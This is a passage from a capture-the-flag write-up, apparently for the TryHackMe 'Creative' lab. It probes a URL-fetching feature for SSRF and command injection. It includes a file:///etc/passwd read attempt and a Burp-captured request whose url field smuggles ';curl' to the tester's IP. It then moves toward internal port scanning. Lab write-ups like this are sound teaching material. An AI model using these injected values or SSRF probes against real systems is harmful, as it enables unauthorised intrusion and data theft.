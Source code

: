 But it says the link is dead? no request in the server logs

![Testing](/assets/img/CTF/THM/Creative/5_deadpyServer.png)

I tried loading some local files
```
file:///etc/passwd
```

also it says the link is Dead, I tried some command Injection payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/Intruder/command-execution-unix.txt),

I can try enumerating internal ports using SSRF,

First I Intecepted the request using BurpSuite

```http
POST / HTTP/1.1
Host: beta.creative.thm
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://beta.creative.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://beta.creative.thm/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

url=%3Bcurl+http%3A%2F%2F10.6.65.93%3A8300%3B%23
```

we have a `url` POST parameter that we can change it to do Internal network port scanning

```http
POST / HTTP/1.1
Host: beta.creative.thm
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://beta.creative.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://beta.creative.thm/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```